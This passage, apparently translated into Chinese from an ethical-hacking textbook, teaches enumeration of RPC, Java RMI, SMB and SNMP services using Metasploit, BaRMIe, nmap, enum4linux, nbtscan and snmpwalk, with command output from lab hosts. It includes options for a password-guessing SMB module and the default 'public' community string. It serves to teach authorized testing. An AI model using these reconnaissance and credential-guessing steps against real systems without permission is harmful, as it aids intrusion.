| nfs_acl | 100227 | 3 | 2049 | udp |
| nlockmgr | 100021 | 1 | 34578 | udp |
| nlockmgr | 100021 | 3 | 34578 | udp |
| nlockmgr | 100021 | 4 | 34578 | udp |
| nlockmgr | 100021 | 1 | 39297 | tcp |
| nlockmgr | 100021 | 3 | 39297 | tcp |
| nlockmgr | 100021 | 4 | 39297 | tcp |
| rpcbind | 100000 | 4 | 111 | tcp |
| rpcbind | 100000 | 3 | 111 | tcp |
| rpcbind | 100000 | 2 | 111 | tcp |
| rpcbind | 100000 | 4 | 111 | udp |
| rpcbind | 100000 | 3 | 111 | udp |
| rpcbind | 100000 | 2 | 111 | udp |

[*] 已扫描 1 台主机中的 1 台（100% 完成）
[*] 辅助模块执行完成

由于我们正在扫描同一台主机，使用 Metasploit 模块获得与 rpcinfo 相同的结果并不意外。既然所做的只是查询 portmapper 进程，你可以使用任何让你最舒适的工具。与使用 nmap 相比，使用这些工具有几个优势。首先，你可以通过与 portmapper 交互来获取进程名称。其次，除非你明确指示要扫描所有端口，否则使用 nmap 不会获取所有端口。portmap 分配的端口范围不在 nmap 扫描的知名端口列表中。

## 远程方法调用

Java 程序非常流行，尤其是在 Web 应用程序方面。Java 为程序员提供了大量帮助，尤其是在可用自身功能实现的库和接口方面。Java 包含其自身的远程过程调用功能，但在 Java 中它被称为远程方法调用（RMI）。要使用 RMI 的程序，系统需要一个名为 rmiregistry 的 Java 版 portmapper。使用 RMI 的程序会向 rmiregistry 程序注册自身。这意味着任何人都可以查询 rmiregistry 以查看提供了哪些服务。rmiregistry 程序的响应方式与我们查询 portmapper 时看到的类似。

据说 RMI 是 RPC 的面向对象版本。这意味着对象在服务器和客户端之间传递。客户端通过接口实现一个桩（stub）。接口是面向对象术语，表示类的定义。桩与服务器上的骨架（skeleton）进行通信。当程序员创建使用 RMI 的程序时，他们使用 RMI 编译器（程序 rmic）。我们用来连接 RMI 注册表以枚举已注册服务的程序不需要知道在骨架和桩之间传递对象所需的特定接口，因为枚举所做的只是识别远程系统上的骨架或服务。我们将从 Metasploit 开始，在具有 RMI 的系统上运行扫描。你可以在此处查看使用 Metasploit 进行 RMI 枚举的示例：

### 在 Metasploit 中运行 RMI 扫描器

```
msf > use auxiliary/gather/java_rmi_registry
msf auxiliary(gather/java_rmi_registry) > show options
```

模块选项 (auxiliary/gather/java_rmi_registry):

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| RHOST | | 是 | 目标地址 |
| RPORT | 1099 | 是 | 目标端口 (TCP) |

```
msf auxiliary(gather/java_rmi_registry) > set RHOST 192.168.86.62
RHOST => 192.168.86.62
msf auxiliary(gather/java_rmi_registry) > run
[*] 192.168.86.62:1099 - Sending RMI Header...
[*] 192.168.86.62:1099 - Listing names in the Registry...
[+] 192.168.86.62:1099 - 1 names found in the Registry
[+] 192.168.86.62:1099 - Name HelloServer (HelloImpl_Stub) found on 127.0.1.1:38371
[*] Auxiliary module execution completed
```

运行 java_rmi_registry 模块所需的选项很简单。远程端口默认为 1099，即 rmiregistry 监听的端口。如果你认为有其他端口在监听，可以设置 RPORT 变量。不过，必需的是 RHOST。我们将此变量设置为运行一个非常简单的 Java 程序的系统 IP 地址，该程序实现了 RMI 服务器。你可以看到根据 RMI 注册表的扫描结果，有一个名为 HelloServer 的服务器。它甚至告诉我们桩名为 HelloImpl。尽管它是服务器，但注册表将其称为桩，因为桩和骨架之间的区别在于对话的结束。rmic 为服务器和客户端生成桩。只是将服务器端称为骨架以区分两者。

Metasploit 不是扫描 RMI 服务的唯一方法。如果你四处看看，可以找到其他程序。其中一个名为 Barmie，其样式写作 BaRMIe 以突出名称中的 RMI。你可以通过 Github 获取源代码以及 BaRMIe 的预编译实现。运行该程序很简单。由于它是 Java 程序，你必须通过用于创建 Java 虚拟机的 Java 程序运行中间代码文件。由于它存储为 Java 存档（JAR），你需要告诉 Java 它将从其中一个运行。该程序需要知道它正在扫描哪个主机，因此你传入目标的 IP 地址。你可以在下面看到 BaRMIe 的运行示例。

程序 javac 用于将 Java 源代码编译为中间代码文件。程序 java 用于执行中间代码文件。

### 使用 BaRMIe

```
root@quiche:~# java -jar BaRMIe_v1.01.jar 192.168.86.62
```


v1.0
Java RMI 枚举工具。
作者：Nicky Bloor (@NickstaDB)

警告：BaRMIe 旨在帮助安全专业人员识别用户有权攻击的系统上不安全的 RMI 服务使用情况。BaRMIe 必须遵守所有相关法律。否则可能导致你被起诉。开发者不承担任何责任，也不对该程序造成的任何滥用或损害负责。

正在通过 RMI 注册表扫描 1 个目标中暴露的对象...

```
[--] An exception occurred during the PassThroughProxyThread main loop.
java.net.SocketException: Socket closed
[--] An exception occurred during the ReplyDataCapturingProxyThread main loop.
java.net.SocketException: Socket closed
RMI Registry at 192.168.86.62:1099
Objects exposed: 1
Object 1
Name: HelloServer
Endpoint: 127.0.0.1:38371
[+] Object is bound to localhost, but appears to be exposed remotely.
Classes: 3
Class 1
Classname: java.rmi.server.RemoteStub
Class 2
Classname: java.rmi.server.RemoteObject
Class 3
Classname: HelloImpl_Stub

1 potential attacks identified (+++ = more reliable)
[---] Java RMI registry illegal bind deserialization

0 deserialization gadgets found on leaked CLASSPATH
[~] Gadgets may still be present despite CLASSPATH not being leaked

Successfully scanned 1 target(s) for objects exposed via RMI.
```

从运行此程序可以看到一些东西。它比 Metasploit 稍微详细一些。我们得到服务器的名称，HelloServer。与 Metasploit 类似，我们看到服务器绑定到端口 38371 的 localhost，该端口由 rmiregistry 动态分配。我们还可以从此中看到继承树。可以看到对类 java.rmi.server.RemoteStub、java.rmi.server.RemoteObject 和 HelloImpl_Stub 的引用。根据 BaRMIe，该服务远程暴露但仅可供 localhost 使用。这意味着存在信息泄露。为了尝试识别该 RMI 服务器的漏洞并可能利用这些漏洞，我们需要获得对系统的访问权限。

在识别 RMI 注册表和其他服务的同时，我们还发现了目标系统上存在另一段软件。这现在可能看起来很明显，但如果你发现 RMI 注册表和 RMI 服务，那么你就发现了一个至少安装了 Java 运行时引擎（JRE）的系统，如果不是 Java 开发工具包（JDK）的话。从这里的输出中我们不知道的是 JRE 或 JDK 的版本。然而，近年来 Java 实现中存在过漏洞。知道系统上至少有一个 JRE 可能已为你提供了漏洞线索。


## 服务器消息块

你会遇到的最常见的远程过程调用实现是 Windows 网络中使用的那一种。SMB 协议在考虑其所有不同用途和所有不同运行方式时比较复杂。你可能最熟悉 SMB 作为用于跨网络共享文件的协议。虽然这肯定是 SMB 的一种用途，但不是唯一一种，即使考虑文件共享，也远不止是在网络上传输文件内容。

SMB 是一个应用层协议，可以在较低层的不同协议之上运行。首先，它可以直接在 TCP 之上运行，无需任何其他会话层协议。如果系统直接在 TCP 上运行 SMB，你会发现 TCP 端口 445 是开放的。SMB 也可以在 NetBIOS 等会话协议之上运行，NetBIOS 是由 IBM 开发的应用程序编程接口 (API)，旨在将输入/输出 (I/O) 功能从本地系统扩展到网络。如果你看到 UDP 端口 137 和 138 开放，你就会知道你发现了在 NetBIOS 之上运行的 SMB。但是，如果你发现 TCP 端口 137 和 139 开放，你就会发现 SMB 在 TCP 上的 NetBIOS 之上运行。请记住，在这种情况下，NetBIOS 用于名称服务。

那么，SMB 到底有什么用呢？SMB 用于 Windows 系统之间的通信——文件共享、网络管理、系统管理。这可能意味着管理系统名称，以确保没有冲突。这样的管理要求系统向本地网络宣布自身。SMB 还必须支持身份验证，以免系统对整个网络完全开放。这意味着 SMB 了解用户和组。它还了解共享，即暴露给网络的目录。系统必须能够向询问的系统提供它们正在导出到网络的共享列表。这允许用户在身份验证后获取共享列表并访问想要的共享。

当然，身份验证并非总是必要。SMB 支持一种称为空身份验证的机制。这意味着有些函数不需要用户名和密码。系统可以使用空身份验证请求网络中其他系统的信息，这意味着未传递任何凭据。这种空身份验证可以让我们收集关于系统的大量信息。

我们可以使用几种不同的工具来枚举 Windows 系统上的信息。实际上，这不仅限于 Windows 系统，尽管在其他系统上实现 SMB 的目的是与 Windows 系统互操作。Samba 是一个可以安装在类 Unix 操作系统上的软件包，提供 SMB 以及 NetBIOS 命名服务。Samba 使用两个独立的进程。一个是 smbd，处理 SMB，还有一个是 nmbd，处理与 Windows 系统互操作的命名方面。这意味着，即使我们希望从 Windows 系统枚举信息，也可以收集类 Unix 系统的信息。

起步的首要方法是使用内置工具。内置工具在 Windows 系统上尤其常见，但也有类 Unix 的实用程序。我们还将查看一些可用于收集信息的 nmap 插件。Metasploit 毫不奇怪地拥有多个用于扫描 SMB 系统的模块。还有其他一些实用程序可供使用，我们将了解其中一些。

## 内置实用程序

如果你在 Windows 系统上，有许多可用的工具可以使用 SMB 收集信息。Linux 上也有类似工具。关于内置工具需要注意的是，你需要处于同一广播域才能使用它们。NetBIOS 最初是为局域网开发的，而不是内置广域网概念的。因此，一些函数之所以有效，是因为系统依赖向网络广播信息。这意味着，在这些工具生效之前，你需要在本地网络上有存在。

可以通过使用 nbstat 程序来收集 NetBIOS 统计信息。这允许你收集有关本地网络的数据。在以下示例中，你可以看到使用 nbstat 获取远程系统数据的方法。使用 nbstat -a 会显示所提供主机名的名称表。如果我们只知道远程系统的 IP 地址，可以改用 nbstat -A。你会看到我们得到不同的信息片段。你会在左侧看到名称列表，后跟一个代码。该代码指示名称存在的上下文，后跟每个名称的状态。

### nbstat 输出

```
C:\Users\kilroy
> nbstat -a billthecat

Local Area Connection:
Node IpAddress: [192.168.86.50] Scope Id: []

NetBIOS Remote Machine Name Table

Name                   Type       Status
------------------------------------------------
BILLTHECAT             <00>       UNIQUE     Registered
BILLTHECAT             <20>       UNIQUE     Registered
WORKGROUP              <00>       GROUP      Registered

MAC Address = AC-87-A3-36-D6-AA
```

显示的代码来自 NetBIOS，你可以查找代码以确定名称关联到什么。使用 SMB 的系统可以存在于多个上下文中。你看到的是一个既是工作站又是文件服务器的系统。这意味着该系统上已启用文件共享。不过，该系统在网络上也充当工作站或客户端。区分功能很重要，因为这样每个系统才能知道可以向其他每个系统提出什么类型的问题。从技术术语来说，每组功能都有关联的过程。我们不能调用不存在的过程，因此在远程系统上调用过程以启动操作之前，我们必须知道有哪些过程可用。nbstat -a 基本上提供了这些信息。

到目前为止我们看到的只是询问网络上主机名关联的所有功能（名称）。这是一个单独的系统。如果我们想查看所有正在通信的 SMB/NetBIOS 主机名，需要请求其他内容。我们仍然可以使用 nbstat，只是在命令行中传递不同的参数。我们要查找的是已解析的名称。当没有用于名称查找的集中式数据库时，此列表可以来自广播消息——系统在上线时宣布其名称和存在，之后会定期宣布。它也可以来自 Windows Internet Name Server (WINS)，后者是企业网络中系统名称的中央存储库。Windows 服务器将具有 WINS 功能，因此系统向 WINS 注册，所有名称都可以被解析。

### 使用 nbstat 列出已解析的名称

```
C:\Users\kilroy
> nbstat -r

NetBIOS Names Resolution and Registration Statistics
-----------------------------------------------
Resolved By Broadcast    = 47
Resolved By Name Server  = 0

Registered By Broadcast  = 8
Registered By Name Server = 0

NetBIOS Names Resolved By Broadcast
-----------------------------------------------
YA9PISTACHIO       <00>
BILLTHECAT         <00>
YAZPISTACHIO       <00>
YAZPISTACHIO <00>
LOLAGRAINOLA <00>
LOLAGRAINOLA <00>
YAZPISTACHIO <00>
YAZPISTACHIO <00>
```

nbstat 还提供其他功能，但它们更多与本地系统功能相关，对枚举来说相关性较低。虽然 nbstat 功能丰富，但如前所述，它仅适用于 Windows 系统。如果你不运行 Windows，可以使用其他工具。如果你有 Linux 系统并安装了 Samba 软件包（它提供允许 Linux 使用 SMB 进行通信的服务），可以使用 nmblookup 工具。这可用于查找网络上的名称。它可以用于查询 WINS，也可以查找那些仅广播其信息的系统的名称。例如，要获取有关系统 billthecat 的详细信息，如我们之前所做的，你会使用 nmblookup -S -R billthecat，如你在这里看到的那样。

### 用于枚举的 nmblookup

```
kilroy@savagewood$ nmblookup -S -B 192.168.86.255 billthecat
Can't load /etc/samba/smb.conf - run testparm to debug it
querying billthecat on 192.168.86.255
192.168.86.32 billthecat<00>
Looking up status of 192.168.86.32
	BILLTHECAT <00> -      H <ACTIVE>
	BILLTHECAT <20> -      H <ACTIVE>
	WORKGROUP  <00> - <GROUP> H <ACTIVE>
MAC Address = AC-87-A3-36-D6-AA
```

使用 -B 告诉 nmblookup 使用提供的广播地址，即本地网络上的广播地址。要使用 WINS，可以使用 -R 对名称进行递归查找。标志 -S 告诉 nmblookup 获取节点状态，而不仅仅是名称状态。这个标志为我们提供了其他用途。与之前一样，我们可以看到我们有一个工作站 (<00>) 和一个文件服务器 (<20>)。你还将从此输出中看到，与之前一样，该系统属于工作组 WORKGROUP。工作组用于临时 Windows 网络，其中没有域控制器来管理所有系统。

## Nmap 脚本

Nmap 对我们继续很有用，尽管我们已经超越了端口扫描阶段。在这里，我们希望使用提供的脚本收集更多信息。在撰写本文时，最新版 Kali Linux 的 nmap 实现中包含 33 个与 SMB 相关的脚本。接下来，你可以看到来自输出的一部分


该脚本。脚本名称 smb-os-discovery 在输出中显示。这是一台已设置为共享的 Windows 系统。你会发现 nmap 已非常具体地识别出它，一直到已安装的服务包。有趣的是，网络上有几台其他系统启用了基于 SMB 的共享，但它们都没有被识别。那些系统与本系统之间的巨大区别是，那些系统只打开了端口 445，而本系统还打开了端口 135 和 139。

## smb-os-discovery 扫描输出

```
Nmap scan report for stevedallas.lan (192.168.86.50)
Host is up (0.00058s latency).

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 46:5E:C8:0A:B7:D1 (Unknown)

Host script results:
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: stevedallas
|   NetBIOS computer name: STEVEDALLAS\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2018-08-17T20:30:27-06:00
```

我们可以使用 nmap 来查找几项重要信息。有针对用户、组、服务、进程和共享的枚举脚本。其中一些在远程系统提供任何信息之前需要身份验证。Microsoft 从 Windows Server 2008 R2 和 Windows 7 开始禁用 null session 身份验证。此后的任何操作系统在访问提取所请求信息所需的进程间通信之前都需要身份验证。但是，该设置可以被禁用，你永远不知道何时会遇到非常过时或配置错误的系统。你可以在这里看到 nmap 中共享枚举脚本失败的情况。该列表显示，尽管需要身份验证，但它仍然尝试了常见的共享名称。

## 使用 Nmap 枚举共享

```
Nmap scan report for stevedallas.lan (192.168.86.50)
Host is up (0.00040s latency).

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 46:5E:C8:0A:B7:D1 (Unknown)
```

### 主机脚本结果：

```
| smb-enum-shares:
|   note: ERROR: Enumerating shares failed, guessing at common ones
|   (NT_STATUS_ACCESS_DENIED)
|    account_used: <blank>
|    \\192.168.86.50\ADMIN$:
|    warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|    Anonymous access: <none>
|    \\192.168.86.50\C$:
|    warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|    Anonymous access: <none>
|    \\192.168.86.50\IPC$:
|    warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|    Anonymous access: READ
|    \\192.168.86.50\USERS:
|    warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_   Anonymous access: <none>
```

尝试的常见共享名称之一是 IPC$。这是一个允许访问共享管道的共享名称，这是一种进程间通信方法。nmap 检查的另一个共享名称是 C$。这是一个创建的管理共享。同样，较旧版本的 Windows 将允许更轻松地访问此共享，但自 Windows XP 以来，对该共享的使用有了更多限制。它确实使管理员能够远程工作，但访问它不仅仅需要登录凭据。登录凭据必须是管理员的凭据。

虽然 nmap 确实有其他可用于运行 SMB 的系统的脚本，但其中大多数并不用于枚举。其中许多专门用于漏洞识别或确认。由于我们专注于枚举，可以将查看那些其他脚本推迟到以后。

## Metasploit

Metasploit 几乎为道德黑客的每个方面都提供了模块。它可以以多种不同的方式使用。如前所示，我们当然可以将其用于枚举，在涉及 SMB 时，有几个模块你可以运行。作为示例，我们可以查找网络上的 SMB 版本。在以下清单中，你将看到 smb_version 模块的运行情况。你应该了解正在运行的 SMB 服务版本。你可以看到两个已列出操作系统版本的已识别系统。根据这些信息，你可以确定支持的 SMB 版本。Windows XP 系统正在运行 SMB 版本 1，因为版本 2 直到 Windows Vista 发布才推出。根据 SMB 版本历史记录，Windows 7 系统将使用 SMB 版本 2.1。

## 使用 Metasploit 扫描 SMB 版本

```
msf auxiliary(scanner/smb/smb_version) > run
```

```
[*] Scanned 26 of 256 hosts (10% complete)
[*] 192.168.86.26:445 - Host could not be identified: ()
[*] 192.168.86.27:445 - Host could not be identified: ()
[*] 192.168.86.32:445 - Host could not be identified: ()
[*] 192.168.86.41:445 - Host could not be identified: ()
[+] 192.168.86.49:445 - Host is running Windows XP SP2 (language:English)
(name:OPUS-C765F2) (workgroup:WORKGROUP )
[+] 192.168.86.50:445 - Host is running Windows 7 Professional SP1
(build:7601) (name:STEVEDALLAS) (workgroup:WORKGROUP )
[*] Scanned 52 of 256 hosts (20% complete)
[*] 192.168.86.61:445 - Host could not be identified: ()
```

我们还可以使用 Metasploit 来枚举用户。为此，你将使用 smb_enumerus_domain 模块。如果你知道一个，可以使用用户名和密码。这将允许该模块对系统进行身份验证，以获取更多用户。这不是必需的，但没有某种形式的身份验证，你获得用户列表的可能性要小得多。幸运的是，有另一个模块可以帮助你至少获取一个用户名和密码。smb_login 模块可用于尝试用户名/密码组合。这里你可以看到 smb_login 模块的选项列表。

## smb_login 模块选项

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| ABORT_ON_LOCKOUT lockout_is_detected | false | 是 | 当帐户...时中止运行 |
| BLANK_PASSWORDS users | false | 否 | 尝试所有用户的空密码 |
| BRUTEFORCE_SPEED to 5 | 5 | 是 | 暴力破解速度，从 0 开始 |
| DB_ALL_CREDS stored in the current database | false | 否 | 尝试当前数据库中的每个用户/密码对 |
| DB_ALL_PASS | false | 否 | 将当前数据库中的所有密码添加到列表 |
| DB_ALL_USERS | false | 否 | 将当前数据库中的所有用户添加到列表 |
| DETECT_ANY_AUTH | false | 否 | 启用接受任何身份验证的系统的检测 |
| DETECT_ANY_DOMAIN | false | 否 | 检测指定用户是否需要域 |
| PASS_FILE | | 否 | 包含密码的文件，每行一个 |
| PRESERVE_DOMAINS | true | 否 | 尊重包含域名的用户名 |
| Proxies | | 否 | 格式为 type:host:port[,type:host:port][...] 的代理链 |
| RECORD_GUEST | false | 否 | 将访客特权的随机登录记录到数据库 |
| RHOSTS | | 是 | 目标地址范围或 CIDR 标识符 |
| RPORT | 445 | 是 | SMB 服务端口 (TCP) |
| SMBDomain | . | 否 | 用于身份验证的 Windows 域 |
| SMBPass | | 否 | 指定用户名的密码 |
| SMBUser | | 否 | 用于身份验证的用户名 |
| STOP_ON_SUCCESS | false | 是 | 当凭据对主机有效时停止猜测 |
| THREADS | 1 | 是 | 并发线程数 |
| USERPASS_FILE | | 否 | 包含用户名和密码的文件，以空格分隔，每行一对 |
| USER_AS_PASS | false | 否 | 尝试将用户名作为所有用户的密码 |
| USER_FILE | | 否 | 包含用户名的文件，每行一个 |
| VERBOSE | true | 是 | 是否打印所有尝试的输出 |

使用 smb_login 模块，你可以提供包含用户名和密码的文件。该模块将尝试使用用户名和密码组合进行身份验证。你还会看到，你可以指示模块尝试将用户名用作密码。这通常被密码策略禁止，但你可能会遇到没有实施密码策略的系统，从而使得用户名和密码可以相同。

与 nmap 类似，Metasploit 有多个可用于 SMB 系统的模块。其中许多与识别漏洞相关。它确实提供了另一个工具，可


## 其他实用程序

考虑到使用 SMB 进行网络连接的设备数量，有许多可用于枚举 SMB 系统的工具也就不足为奇了。程序 nbtscan 就是其中之一。它提供关于本地网络上发现的系统的详细信息，包括 NetBIOS 名称、用户、MAC 地址和 IP 地址。在下面的列表中，您可以看到扫描我家庭网络的输出，识别出所有可用 Windows 共享的系统。扫描范围已在此处通过命令行提供，但您也可以在文件中提供 IP 地址。

## 使用 nbtscan 扫描网络

```
root@quiche:~# nbtscan 192.168.86.0/24
Doing NBT name scan for addresses from 192.168.86.0/24
```

| IP 地址 | NetBIOS 名称 | 服务器 | 用户 | MAC 地址 |
| :--- | :--- | :--- | :--- | :--- |
| 192.168.86.0 | 发送失败：权限被拒绝 | | | |
| 192.168.86.44 | NPII110654 | 未知 | | 00:00:00:00:00:00 |
| 192.168.86.52 | BOBBIE | 服务器 | BOBBIE | 00:00:00:00:00:00 |
| 192.168.86.49 | OPUS-C765F2 | 服务器 | 未知 | 00:50:56:3b:ac:3e |
| 192.168.86.170 | MILOBLOOM | 服务器 | 未知 | ac:87:a3:1e:6b:30 |
| 192.168.86.50 | STEVEDALLAS | 服务器 | 未知 | 46:5e:c8:0a:b7:d1 |
| 192.168.86.26 | YAZPISTACHIO | 服务器 | 未知 | f0:18:98:0c:34:69 |
| 192.168.86.61 | MILOBLOOM | 服务器 | 未知 | ac:87:a3:1e:6b:30 |
| 192.168.86.32 | BILLTHECAT | 服务器 | 未知 | ac:87:a3:36:d6:aa |
| 192.168.86.27 | BINKLEY | 服务器 | 未知 | 8c:85:90:5a:7e:f2 |
| 192.168.86.255 | 发送失败：权限被拒绝 | | | |

与任何工具一样，在此处获取输出很有帮助，但到了某个时刻，您需要对信息做些什么，至少是将其放入为客户或雇主编写的报告中。nbtscan 的一个优点是能够生成可通过编程方式操作的输出。这可能包括获取输出并将其放入数据库中。虽然您当然可以使用空格分隔符读取值，但 nbtscan 允许您指定一个分隔符，这可能使读取输出更加容易，或者您也可以指定逗号作为分隔符，然后在电子表格程序中打开输出。添加 -s 后跟您想要用作分隔符的任何字符，将获得与之前所示相同的输出，只是不同字段之间会包含您指定的分隔符。

在涉及枚举和 SMB 时，您可能会开始看到一些模式。虽然有许多可用工具，但它们都执行相同的功能，而在涉及枚举时，最容易做的事就是识别使用 SMB 的系统，包括它们在网络上宣传的名称。关于该名称的一个注意事项是：它可能无法解析为 IP 地址。使用 NetBIOS 宣布的名称旨在用于本地网络并进行解析。这意味着除非 DNS 配置为使用相同的名称和 IP 地址，否则它无法使用 DNS 解析。假设系统甚至有 DNS 地址，您可以为 Windows 共享使用一个名称，为 DNS 使用另一个名称。如果您的企业网络使用 WINS，它们将解析为相同的地址，因为本地系统向 WINS 注册的方式。

另一个工具，我们将看到与这个工具相同的功能，是 enum4linux。以下示例在预装了它的 Kali Linux 系统上运行，但获取其副本也很容易。它只是一个 Perl 脚本，因此要运行它，您需要 Perl 解释器。以下示例枚举特定主机（通过 IP 地址标识）上的共享。目标系统是一个运行 Samba 的 Linux 系统，用于通过 SMB 提供 Windows 网络功能。在输出中，您将找到与 Samba 配置方式相关的大量信息。例如，我们可以看到配置了工作组 WORKGROUP，这是一种在本地网络上组织所有使用 Windows 的系统的方式。

## enum4linux 共享枚举

```
root@quiche:~# enum4linux -S 192.168.86.52
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Aug 19 12:18:25 2018

==========================================================
| Target Information |
==========================================================

Target ............ 192.168.86.52
RID Range ..... 500-550,1000-1050
Username ........ ''
Password ........ ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

==========================================================
| Enumerating Workgroup/Domain on 192.168.86.52 |
==========================================================
[+] Got domain/workgroup name: WORKGROUP
```

## enum4linux 共享枚举（续）

```
| Session Check on 192.168.86.52 |
---------------------------------
[+] Server 192.168.86.52 allows sessions using username '', password ''

| Getting domain SID for 192.168.86.52 |
---------------------------------------
Domain Name: WASHERE
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

| Share Enumeration on 192.168.86.52 |
--------------------------------------
WARNING: The "syslog" option is deprecated
```

| 共享名称 | 类型 | 注释 |
|-----------|------|---------|
| homes | 磁盘 | 主目录 |
| print$ | 磁盘 | 打印机驱动程序 |
| IPC$ | IPC | IPC 服务 (bobbie 服务器 (Samba, Ubuntu)) |

使用 SMB1 重新连接以列出工作组。

| 服务器 | 注释 |
|--------|---------|
| | |

| 工作组 | 主浏览器 |
|---------|--------|
| WORKGROUP | STEVEDALLAS |

[+] 正在尝试映射 192.168.86.52 上的共享

在底部，您可以看到不同的共享名称。这包括 IPC$，用于主机间的进程间通信。这允许远程管理系统。使用 enum4linux，我们终于可以看到网络上的主浏览器了。名为 STEVEDALLAS 的系统持有网络上所有系统的当前权威列表。这是一个由网络上的其他系统选举的系统，这基本上意味着它自愿担任，并且基于其特性，没有其他系统对其提出挑战。STEVEDALLAS 成为主浏览器的原因是它仅是少数几个 Windows 系统之一，而在实际运行 Windows（而非运行 SMB 服务的 Linux 或 macOS）的两三个系统中，STEVEDALLAS 拥有最新的操作系统。

使用与 SMB 相关的实用程序，我们可以从目标网络收集大量信息。如前所述，使用这些工具通常需要处于本地网络上。这一方面原因可能是 Windows 网络的广播域导向——本地网络上的公告。另一个原因是 Windows 网络端口通常被防火墙阻止。此外，桌面网络（其中系统最有可能使用 SMB 进行通信）通常使用可能不会暴露给外部世界的专用地址，这是完全可能的。要访问它们，由于按惯例它们不可路由，您必须处于一个网络上，该网络至少有路由规则可通往那些目标网络，这意味着存在网络可达性。

虽然桌面并不是唯一会使用 SMB 进行通信的设备（服务器也会），但在大多数情况下，它们将是数量最多的系统。和往常一样，在开始查看桌面时，请确保已与雇主达成查看协议。并非所有人都希望桌面网络被触碰，因为这可能会阻碍其用户的工作效率。他们也可能觉得自己最感兴趣的是暴露给外部世界的传统技术漏洞，而不考虑组织内部的横向移动，或桌面是当今攻击者最常见的目标这一事实。

## 简单网络管理协议

简单网络管理协议（SNMP）自 20 世纪 80 年代末就已存在，尽管它经历过多次迭代。第一个迭代，版本 1（SNMPv1），于 1988 年引入。尽管在多年间被其他版本取代，它仍在使用。SNMPv1 还包含一些缺陷，使其从安全角度来看存在问题。它是一个二进制协议，但不支持加密。这意味着任何能够获取正在传输的数据包的人都可以轻松解码它。第二个问题是身份验证非常薄弱。SNMPv1 使用 community 字符串来获取访问权限。您要么获得只读访问权限，要么获得读写访问权限。除此之外没有更细粒度的控制。也没有用户的概念。您提供适当的字符串，即获得相应级别的访问权限。也许更糟糕的是，常用的 community 字符串非常知名。字符串 "public" 用于只读，而字符串 "private" 用于读写。这不是硬编码的，但非常普遍。

版本 2 对一个广为人知的有问题的协议引入了一些修复。首先，它引入了比 v1 中基本的 community 字符串模型更强的身份验证。然而，与 v2 一起出现的还有 v2c，它保留了用于身份验证的 community 字符串实现。这意味着现有工具可以继续只使用 community 字符串，而无需实现任何额外的身份验证机制。然而，v2 和 v1 不兼容。v2 中的消息规范不同于


与 v1 中的那些相同，因此即使您的工具只是使用社区字符串，也不能简单地“放置”进去，就期望它能与使用 v1 的多个系统协同工作。

版本 3 实现了额外的修复，并被认为是相较于之前版本的重大改进。首先，它支持加密，而非明文传输。其次，它支持基于用户的身份验证。这意味着您能获得更好的问责制，从而知道谁在做什么。这一点很重要，因为 SNMP 不仅可以用于监视设备，还可以用于在端点上设置参数。

基本的 SNMP 架构会在端点上安装代理，而服务器系统可以用于定期轮询这些代理，以获取用于监控的测量数据。SNMP 代理可以提供存储在管理信息库（MIB）中的信息。这些 MIB 是使用抽象语法记号标准一（ASN.1）定义的数据结构。每个节点或数据元素都会获得一个对象标识符（OID），它是一个由数值组成的长点分字符串。从代理获取或设置任何值都需要提供与您要查找的值对应的正确 OID。

SNMP 可以提供大量不同的信息，前提是代理上安装了正确的 MIB 且运行正常。这些信息可以包括系统名称和系统上运行的内核版本等内容。在下面的示例中，您可以看到使用 snmpwalk 程序“遍历”MIB 树以从代理收集数据的过程。它从树的顶层开始，收集能找到的所有内容。从 snmpwalk 的输出中，您可以看到系统名称以及内核标识符。此外，还可以看到在 SNMP 代理中配置的某些联系信息。

### Linux 系统上的 snmpwalk

```
root@quiche:~# snmpwalk -v1 -c public 192.168.86.52
iso.3.6.1.2.1.1.1.0 = STRING: "Linux bobbie 4.15.0-30-generic #32-Ubuntu SMP Thu
Jul 26 17:42:43 UTC 2018 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (7606508) 21:07:45.08
iso.3.6.1.2.1.1.4.0 = STRING: "Foo <foo@wubble.com>"
iso.3.6.1.2.1.1.5.0 = STRING: "bobbie"
iso.3.6.1.2.1.1.6.0 = STRING: "Erie, CO"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
```

有许多可拉取的 MIB 可以提供重要信息。其中之一是接口表（ifTable）。如果您遍历 ifTable，将获得系统上所有接口及其配置的列表。在分层网络设计中，您可以了解系统可能连接到的其他网络。有了这些信息，您在识别网络和系统的过程中，可以继续构建一直在创建的网络图。

